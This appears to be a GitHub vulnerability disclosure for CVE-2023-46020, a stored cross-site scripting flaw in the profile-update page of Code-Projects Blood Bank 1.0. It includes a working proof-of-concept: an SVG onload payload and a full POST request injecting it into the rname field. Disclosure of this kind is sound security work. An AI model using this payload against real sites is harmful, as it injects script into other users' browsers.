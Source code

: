# CVE-2023-46020-Code-Projects-Blood-Bank-1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/blood-bank-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2020/11/Blood_Bank_In_PHP_With_Source_code.zip
# Overview
+ Code-Projects Blood Bank V1.0 is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through multiple parameters (rename, remail, rphone, and rcity) in the /updateprofile.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2023-46020
+ Affected Version: Blood Bank V1.0
+ Vulnerable File: updateprofile.php
+ Parameters: rename, remail, rphone, rcity
+ Attack Type: local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46020
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46020
# Description
+ The parameters rename, remail, rphone, and rcity in the /file/updateprofile.php file of Code-Projects Blood Bank V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Intercept the POST request to updateprofile.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `rname` parameter
```
POST /bloodbank/file/updateprofile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: http://localhost
Connection: close
Referer: http://localhost/bloodbank/rprofile.php?id=1
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

rname=test"><svg/onload=alert(document.domain)>&remail=test%40gmail.com&rpassword=test&rphone=8875643456&rcity=lucknow&bg=A%2B&update=Update
```
+ Go to the profile page and trigger the XSS
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46020-Code-Projects-Blood-Bank-1.0-Stored-Cross-Site-Scripting-Vulnerability/assets/113091631/d579130a-0668-4cce-b76b-b7919e019c9d">
